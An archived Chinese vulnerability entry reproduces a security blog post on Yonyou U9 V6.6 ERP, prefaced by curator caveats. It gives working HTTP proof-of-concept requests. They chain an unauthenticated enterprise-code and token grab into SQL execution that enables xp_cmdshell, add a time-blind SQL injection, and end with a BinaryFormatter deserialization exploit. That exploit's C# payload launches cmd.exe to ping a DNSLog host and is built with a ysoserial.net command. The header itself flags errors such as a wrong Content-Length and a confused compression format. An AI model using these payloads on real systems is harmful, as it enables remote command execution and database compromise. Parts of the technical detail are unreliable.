# 用友U9企业版 TransWebService令牌/SQL执行、DoServerQuery注入、ReleaseReport反序列化

## 条目说明

- 对象与具体问题：用友U9企业版；TransWebService令牌/SQL执行、DoServerQuery注入、ReleaseReport反序列化
- 版本、配置及部署条件：U9 V6.6；SQLServer高权限及.NET依赖
- 认证与权限前提：前两步取企业Code再Token；第三链context条件未明
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 错NC目录，三实体需分开；DoQuery直接SQL执行与serverName拼接SQLi不同
- 源码根因主要图，固定Content-Length119不符；DoQuery SOAP namespace含换行空白可能无效
- 开启xp_cmdshell是持久安全设置变更，缺恢复；PrepareCommand本身不是漏洞根因
- 称zlib与raw DEFLATE混淆，level9不等于.NET默认；需按实际FromBytes格式说明
- 构造器执行依赖ActivitySurrogateSelectorFromFile链，不是普通BinaryFormatter自动执行构造器；缺修复公告

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

原创 静师傅
                    静师傅  安静安全   2026-01-15 08:35  
  
点击上方「蓝字」，关注我们  
  
  
> “静师傅YYDS的排版  
”  
  
  
  
01  
  
  
  
## 命令执行漏洞  
  
  
  
  
  
U9 V6.6  
  
  
  
首先先贴出POC  
  
POC1数据包用于获取Code值:  
```http
POST /u9/CS/Office/TransWebService.asmx HTTP/1.1
Host: IP:PORT
Content-Type: text/xml; charset=utf-8
Content-Length: 119
SOAPAction: "http://tempuri.org/GetEnterprise"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
 <soap:Body>
  <GetEnterprise xmlns="http://tempuri.org/" />
 </soap:Body>
</soap:Envelope>
```  

> 请求长度说明：原资料 Content-Length 为 119；保留原始标头；其数值未据实际请求体重新计算或验证。
  
通过POC1数据包获取的Code值，POC2数据包获取Token  
```http
POST /u9/CS/Office/TransWebService.asmx HTTP/1.1
Host: IP:PORT
Content-Type: text/xml; charset=utf-8
Content-Length: 119
SOAPAction: "http://tempuri.org/GetToken"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
 <soap:Body>
  <GetToken xmlns="http://tempuri.org/">
   <endId>POC1数据包获取到的Code值</endId>
  </GetToken>
 </soap:Body>
</soap:Envelope>
```  

> 请求长度说明：原资料 Content-Length 为 119；保留原始标头；其数值未据实际请求体重新计算或验证。
  
  
  
Burp发包获取Code值  
  
我们来分析下源码  
  
TransWebService.asmx对应DLL文件为:UFIDA.U9.InvTrans.TransQuery.dll  
  
  
  
分析对应的GetEnterprise方法  
  
  
  
这段代码的意思是通过调用enterpriseInfo.GetAllEnterprise()获取所有企业的信息，然后遍历这些企业，将每个企业的Code、Name和Description提取出来，构造新的Enterprise对象，并添加到列表中。  
  
跟进  
GetAllEnterprise查看  
  
  
  
通过循环遍历的方式，获取了所有企业的详细信息以XML格式，然后解析XML，提取每个企业的Code字段返回响应信息。  
  
之后Burp发送POC2数据包  
  
  
  
分析对应GetToken  
  
  
  
  
  
这里代码的主要逻辑是对获取endId的值生成对应的Token有效令牌  
  
通过以上两个POC数据包获得到Token后，最后命令执行数据包如下:  
```http
POST /u9/CS/Office/TransWebService.asmx HTTP/1.1
Host: IP:PORT
Content-Type: text/xml; charset=utf-8
Content-Length: 119
SOAPAction: "http://tempuri.org/DoQuery"

<?xml version="1.0" encoding="utf-8"?>
  <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
  xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="
  http://schemas.xmlsoap.org/soap/envelope/">
     <soap:Body>
       <DoQuery xmlns="http://tempuri.org/">
         <token>
           POC2数据包获得的Token值
         </token>
         <command>
         EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'ipconfig'
         </command>
       </DoQuery>
     </soap:Body>
 </soap:Envelope>
```  

> 请求长度说明：原资料 Content-Length 为 119；保留原始标头；其数值未据实际请求体重新计算或验证。
  
  
  
通过开启xp_cmdshell成功完成命令执行。  
  
分析对应的DoQuery方法  
  
  
  
  
  
在DoQuery方法中，  
它接收token和command两个参数，然后调用DoInneDataSet执行SQL命令，并将结果转换为一个字典列表返回  
  
跟进  
DoInneDataSet如下:  
  
  
  
形成漏洞的成因是因为最终是通过PrepareCommand函数完成SQL语句执行。  
  
02  
  
  
  
## SQL注入漏洞  
  
  
  
  
  
先贴出POC数据包如下(省略POC1和POC2):  
```http
POST /u9/CS/Office/TransWebService.asmx HTTP/1.1
Host: IP:PORT
Content-Type: text/xml; charset=utf-8
Content-Length: 119
SOAPAction: "http://tempuri.org/DoServerQuery"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
   <DoServerQuery xmlns="http://tempuri.org/">
    <token>POC2数据包获得的Token</token>
    <serverName>test');WAITFOR DELAY '0:0:5'--</serverName>
    <parameters>{"test":"test"}</parameters>
   </DoServerQuery>
  </soap:Body>
</soap:Envelope>
```  

> 请求长度说明：原资料 Content-Length 为 119；保留原始标头；其数值未据实际请求体重新计算或验证。
  
  
  
成功时间盲注延迟  
  
分析对应的DoServerQuery方法  
  
  
  
  
  
可以看到漏洞成因是因为直接拼接了serverName参数到select语句中，  
  
因此形成SQL注入漏洞，跟进DoInneDataSet方法查看。  
  
  
  
最终也是  
PrepareCommand函数完成SQL语句执行。  
  
03  
  
  
  
## 反序列化漏洞  
  
  
  
  
  
先贴出漏洞POC数据包:  
```http
POST /u9/CS/Office/OfficeReportCommonService.asmx HTTP/1.1
Host: IP:PORT
Content-Type: text/xml; charset=utf-8
Content-Length: 119
SOAPAction: "http://tempuri.org/ReleaseReport"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
 <soap:Body>
  <ReleaseReport xmlns="http://tempuri.org/">
   <context>text</context>
   <excelReportSolution>zlib压缩+base64的反序列化payload</excelReportSolution>
  </ReleaseReport>
 </soap:Body>
</soap:Envelope>
```  

> 请求长度说明：原资料 Content-Length 为 119；保留原始标头；其数值未据实际请求体重新计算或验证。
  
OfficeReportCommonService.asmx对应DLL为:  
UFSoft.UBF.Report.WebService.dll  
  
  
  
分析  
ReleaseReport方法  
  
  
  
以上代码中出现反序列化漏洞的问题在于:  
  
ExcelReport excelReport = ExcelReport.FromBytes(excelReportSolution)  
  
跟进  
ExcelReport查看  
  
  
  
序列化类的对象为  
ExcelReport,之后都是他的一些属性成员,这里不重点看  
  
回到上一步，跟进  
FromBytes查看  
  
  
  
可以看到，造成反序列化漏洞是由于  
使用了不安全的BinaryFormatter进行反序列化，而没有进行任何安全控制，导致反序列化漏洞。  
  
接下来构造恶意的  
ExcelReport  
对象，属性成员啥的就不要了  
  
poc.cs如下:  
```
using System;
using System.Diagnostics;
using UFSoft.UBF.Report.Office.Common;
[Serializable]
public class ExploitExcelReport : ExcelReport
{
   public ExploitExcelReport()
   {
      ExecuteCommand("ping DNSLog链接");
    }
   private void ExecuteCommand(string command)
   {
      try
      {
         Process process = new Process();
         process.StartInfo.FileName = "cmd.exe";
         process.StartInfo.Arguments = "/c " + command;
         process.StartInfo.UseShellExecute = false;
         process.StartInfo.CreateNoWindow = true;
         process.Start();
      }
      catch { }
  }
}
```  
  
之后结合  
ysoserial.net生成反序列化payload  
```
ysoserial.exe -g ActivitySurrogateSelectorFromFile -f BinaryFormatter -c "poc.cs;System.dll;UFSoft.UBF.Report.Office.Common.dll" -o raw > payload.bin
```  
  
相应需要的DLL文件在反编译后头部的位置查看需要的DLL  
  
  
  
  
  
  
  
  
  
查阅WSDL接受的是base64，并且根据Net的特性需要zlib压缩处理再进行base64  
  
python脚本先zlib压缩再base64编码，最终才是我们的payload  
  
  
  
level=9 (压缩级别)  
  
level=9 表示最高压缩级别，这与 .NET 的 DeflateStream 默认行为匹配：  
  
wbits=-15 (窗口位参数)  
  
.NET DeflateStream 使用的是原始 DEFLATE 格式 (wbits=-15)，没有 zlib 头部和校验和。  
  
  
  
  
  
  
  
成功反序列化执行ping命令  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
## 往期文章推荐  
  
  
  
  
[[跟着静师傅学代码审计]九垠赢商业管理系统0day-文件上传和任意文件下载](https://mp.weixin.qq.com/s?__biz=MzkyNDI2NjQzNg==&mid=2247494569&idx=1&sn=69a47c5649efb623550eaae8c696dfac&scene=21#wechat_redirect)  
  
  
  
  
[[零日全网首发!]腾达路由器命令注入](https://mp.weixin.qq.com/s?__biz=MzkyNDI2NjQzNg==&mid=2247494213&idx=1&sn=0a5209cc9b6b591f53a4956d91893cff&scene=21#wechat_redirect)  
  
  
  
  
[[代码审计]金和OA存在多个SQL注入0day](https://mp.weixin.qq.com/s?__biz=MzkyNDI2NjQzNg==&mid=2247494081&idx=1&sn=f770ccfb7660a7cde23f15fe3552644b&scene=21#wechat_redirect)  
  
  
###### 公众号：安静安全  
  
  
扫码关注 了解更多  
  
  
  
  
  
  
  
  
  
  
  
  
点个「在看」，你最好看  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
